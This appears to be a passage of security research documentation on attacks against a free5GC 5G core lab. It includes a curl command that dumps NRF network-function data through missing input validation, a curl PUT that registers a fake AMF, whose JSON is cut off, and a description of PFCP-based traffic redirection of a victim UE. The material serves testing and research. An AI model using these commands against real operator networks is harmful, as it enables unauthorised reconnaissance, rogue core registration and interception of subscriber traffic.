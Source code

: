 ### randomDataDump    
This attack exploits a lack of input validation in free5GC and sets the `requester-nf-type` to a random string when making an `nf-instances` request to the NRF. The NRF will still respond with all of the NFs. This attack is executed with the following Linux command: 
```
curl "http://127.0.0.10:8000/nnrf-disc/v1/nf-instances?requester-nf-type=\$randomString\&target-nf-type="
```

### automatedRedirectWithTimer
This attack is from Positive Technologies' report *5G Standalone core security research* section 4.3. In essence, it listens to network traffic while the UE is connecting. The attack code listens for a packet forwarding control protocol (PFCP) session establishment request, then checks if the UE address is in a list of victim addresses. If the UE is a victim then the attack records session information that it uses to redirect traffic from the UE. This is achieved by sending a PFCP session modification request to the user plane function (UPF) with the discovered session ID and forwarding action rule ID (FARID). The attack will send two such modification requests, wait 5 seconds, send two more modification requests to return the UE to its normal path, wait 5 more seconds, and then repeat.
    
## Network Reconfiguration Attacks
### FakeAMFInsert
This attack registers a fake AMF with the NRF. This is achieved by running the `curl` command to `PUT` a JSON object to the NRF. In the environment where this attack was run there is no check on authority to prevent the attacker from registering a fake AMF.  The *FakeAMFDelete* attack is subsequently run to remove the fake AMF. The instance-ID is required to be a version 4 universally unique identifier(UUID), however free5GC does not check the instance-ID or other details about the AMF before adding it to the core. This includes whether or not the instance-id is a properly formatted UUID, which consists of hexadecimal values in a string. A few 1's in the attack's UUID string were replaced with l's while writing the attack code, so the string was not correctly formatted as hexadecimal. The instance-ID was therefore an invalid UUID, but the instance-ID was accepted by free5GC regardless. The full curl command with its JSON code is below.

```
curl -X PUT -H "Content-Type: application/json" -d 
"{
  "nfInstanceId":"b01dface-bead-cafe-bade-cabledfabled",
  "nfType":"AMF",
  "nfStatus":"REGISTERED",
  "plmnList":[
    {
      "mcc":"208",
      "mnc":"93"
    },
    {
      "mcc":"001",
      "mnc":"01"
    }
  ],
  "sNssais":[
    {
      "sst":1,
      "sd":"010203"
    },
    {
      "sst":1,
      "sd":"112233"
    }
  ],
  "ipv4Addresses":[
    "127.0.0.18"
  ],
  "amfInfo":{
```